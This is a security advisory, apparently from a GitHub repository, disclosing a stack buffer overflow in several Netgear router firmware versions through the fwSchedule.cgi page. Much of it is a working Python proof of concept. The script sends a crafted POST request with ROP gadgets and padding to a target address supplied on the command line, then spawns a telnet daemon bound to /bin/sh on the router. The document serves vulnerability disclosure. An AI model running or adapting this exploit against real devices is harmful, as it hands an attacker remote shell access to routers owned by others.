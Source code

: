 # Netgear Routers vulnerability
Netgear includes three new versions of firmware, R6900 1.0.2.26, R6700v3 1.0.4.128, R6700 1.0.0.26. These versions of the firmware are vulnerable to a stack overflow as shown below.
![](https://github.com/Funcy33/Vluninfo_Repo/blob/main/netgear/vlun.png)
where sprintf v24 has only a finite size of 92 and getInputData v6, v21, v20, v19, v18 are controllable and may overflow the stack-based buffer.
By requesting the /fwSchedule.cgi page, an attacker can execute a denial-of-service attack or remote code execution using carefully crafted overflow data.
## POC
import socket
import sys

header = 'POST /fwSchedulePPP2.cgi?.css.ico/xxx/rpc/ HTTP/1.1\r\nHost: 127.0.0.1\r\nConnection: keep-alive\r\nAccept-Encoding: gzip, deflate\r\nAccept: */*\r\nUser-Agent: python-requests/2.23.0\r\nContent-Length: %d\r\n\r\n'
post_data = 'action=%E5%BA%94%E7%94%A8&checkboxNameAll=checkboxValue&checkboxNamehours=checkboxValue&schedule_day=255&schedule_alldayenable=0&starthour=0&startminute=0&endhour=23&result=apply&enable_apmode=0&endminute=59:00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000'
gadget = '%84%b7%03%00'
pad = '\x00'+'a'*(0x2d1 - len(post_data + gadget))
gadget2 = '\x48\xf5\x0c\x00'
cmd = '/bin/utelnetd -l/bin/sh -d;\x00'

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((sys.argv[1] , int(sys.argv[2])))
s.send(header % len(post_data+gadget) + post_data + gadget + pad + gadget2 + cmd)
s.close()
## Timeline

## Acknowledgment
Credit to @XYlearn and @Funcy_kilar from Fudan University, Guangzhou University.

